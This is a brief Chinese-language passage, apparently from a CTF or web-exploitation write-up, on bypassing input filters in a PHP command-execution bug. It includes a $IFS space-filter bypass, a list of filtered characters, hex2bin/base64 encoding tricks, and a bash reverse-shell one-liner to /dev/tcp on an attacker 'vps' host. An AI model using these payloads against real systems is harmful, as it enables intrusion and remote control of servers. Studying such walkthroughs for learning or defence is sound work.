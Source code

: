 [![](assets/1701678867-be3a8be960e955e53707e9a025f50f48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203613-b732b5ac-8dea-1.png)

空格被过滤了，绕过一下

```plain
system('ls$IFS$9/');
```

尝试利用RCE写一个shell

这里经过测试正常的打webshell好像不太行，fuzz一下,看看过滤了哪些东西

貌似

```plain
#''- &\*()|
```

都被过滤了，尝试直接hex2bin/base64\_decode编码绕一下，弹个shell先

```plain
bash -c "bash -i >& /dev/tcp/vps/2333 0>&1"
```

```plain
system(hex2bin(16进制))
```

[![](assets/1701678867-1b22ff78c5d85d86ca8977026a931189.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203619-bacd0a78-8dea-1.png)
